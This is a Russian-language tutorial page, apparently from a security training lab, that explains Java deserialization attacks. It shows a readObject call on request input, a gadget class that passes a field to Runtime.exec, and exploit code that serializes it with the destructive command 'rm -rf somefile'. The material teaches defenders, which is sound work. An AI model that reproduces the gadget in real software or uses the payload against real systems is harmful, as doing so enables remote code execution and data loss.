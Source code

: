 == Простейший эксплойт

=== Уязвимый код

Ниже приведен известный пример уязвимости десериализации Java.

[source,java]
----
InputStream is = request.getInputStream();
ObjectInputStream ois = new ObjectInputStream(is);
AcmeObject acme = (AcmeObject)ois.readObject();
----

Он ожидает объект `AcmeObject`, но выполнит `readObject()` до того, как произойдет приведение.
Если злоумышленник найдет правильный класс, реализующий опасные операции в `readObject()`, он может сериализовать этот объект и заставить уязвимое приложение выполнить эти действия.

=== Класс включен в ClassPath

Злоумышленникам необходимо найти класс в classpath, который поддерживает сериализацию и имеет опасные реализации в `readObject()`.

[source,java]
----
package org.dummy.insecure.framework;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.time.LocalDateTime;

public class VulnerableTaskHolder implements Serializable {

	private static final long serialVersionUID = 1;

	private String taskName;
	private String taskAction;
	private LocalDateTime requestedExecutionTime;

	public VulnerableTaskHolder(String taskName, String taskAction) {
		super();
		this.taskName = taskName;
		this.taskAction = taskAction;
		this.requestedExecutionTime = LocalDateTime.now();
	}

	private void readObject( ObjectInputStream stream ) throws Exception {
        //deserialize data so taskName and taskAction are available
		stream.defaultReadObject();

		//blindly run some code. #code injection
		Runtime.getRuntime().exec(taskAction);
     }
}
----

=== Эксплойт

Если указанный выше класс Java существует, злоумышленники могут сериализовать этот объект и получить удаленное выполнение кода.

[source,java]
----
VulnerableTaskHolder go = new VulnerableTaskHolder("delete all", "rm -rf somefile");

ByteArrayOutputStream bos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(bos);
oos.writeObject(go);
oos.flush();
byte[] exploit = bos.toByteArray();
----

